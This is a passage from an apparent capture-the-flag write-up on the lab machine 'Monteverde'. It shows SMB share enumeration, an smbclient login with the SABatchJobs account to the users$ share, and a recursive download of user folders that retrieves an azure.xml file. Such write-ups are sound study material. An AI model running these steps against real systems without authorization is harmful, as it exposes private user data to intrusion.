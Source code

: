```bash
SMB         10.10.10.172    445    MONTEVERDE       NETLOGON        READ            Logon server share 
SMB         10.10.10.172    445    MONTEVERDE       SYSVOL          READ            Logon server share 
SMB         10.10.10.172    445    MONTEVERDE       users$          READ            
```

<br />

Among the available shares, the most interesting is `users$`, which likely contains user profile directories.

To access it, we can use `smbcclient`:

<br />

```bash
❯ smbclient //MEGABANK.LOCAL/Users$ -U SABatchJobs
Password for [WORKGROUP\SABatchJobs]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Jan  3 14:12:48 2020
  ..                                  D        0  Fri Jan  3 14:12:48 2020
  dgalanos                            D        0  Fri Jan  3 14:12:30 2020
  mhope                               D        0  Fri Jan  3 14:41:18 2020
  roleary                             D        0  Fri Jan  3 14:10:30 2020
  smorgan                             D        0  Fri Jan  3 14:10:24 2020

		31999 blocks of size 4096. 28979 blocks available
```

<br />

And download its content to our local machine for further analysis:

<br >

```bash
smb: \> prompt off
smb: \> recurse on
smb: \> mget *
getting file \mhope\azure.xml of size 1212 as mhope/azure.xml (6,6 KiloBytes/sec) (average 6,6 KiloBytes/sec)
```

<br />

Running `tree`, we see more clearly the content structure:

<br />

```bash
❯ tree
.
├── dgalanos
├── mhope
│   └── azure.xml
├── roleary
└── smorgan

5 directories, 1 file
```
